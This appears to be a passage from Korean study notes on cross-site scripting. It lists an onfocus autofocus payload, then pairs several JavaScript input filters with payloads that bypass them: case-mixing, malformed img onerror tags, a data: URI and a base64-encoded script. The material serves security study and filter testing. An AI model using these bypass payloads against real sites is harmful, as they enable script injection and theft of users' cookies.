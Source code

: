 - input 태그에 포커스가 되면 실행되는 이벤트 핸들러.
    - autofocus 옵션을 통해 자동으로 포커스를 시키거나, URL의 hash 부분에 input id를 입력하면 포커스 되도록 하여 이벤트 핸들러가 실행되도록 함.
    
    ```html
    <input type="text" id="inputID" onfocus="alert(document.domain)" autofocus>
    ```
    

## 필터링 우회

- 대문자 혹은 소문자만을 인식하는 필터 우회
    
    `x => !x.includes('script') && !x.includes('On')`
    
    ```html
    <ScRiPt>alert(document.cookie)</scriPT>
    <img src=x: oneRroR=alert(document.cookie) />
    ```
    

- 잘못된 정규 표현식을 사용한 필터 우회
    - 스크립트 태그 내에 데이터가 존재하는지 확인하는 필터링
        - `x => !/<script[^>]*>[^<]/i.test(x)`
        
        ```html
        <sCrIpt src=data:, alert(document.cooki)></SCRipt>
        ```
        
        - `x => !/<script[^>]*>[^<]/i.test(x) && !x.includes('document')`
        
        ```html
        <sCrIpt src=data:;base64,YWxlcnQgKGRvY3VtZW50LmNvb2tpZSk7></SCRipt>
        ```
        
        - `x => !/<img[^>]*onerror/i.test(x)`
        
        ```html
        <<img src=> onerror=alert(document.cookie)>
        <img src='>' onerror=alert(document.cookie)//\>
        ```
        
        - `x => !/<img([^>]|['"][^'"]*['"])+onerror/i.test(x)`
        
        ```html
        <img src=">'>" onerror=alert(document.cookie) />
        ```
        
        - `x => !/<img.*on/i.test(x)`
        
        ```html
        <img src=""
        onerror = alert(document.cookie) />
        ```
        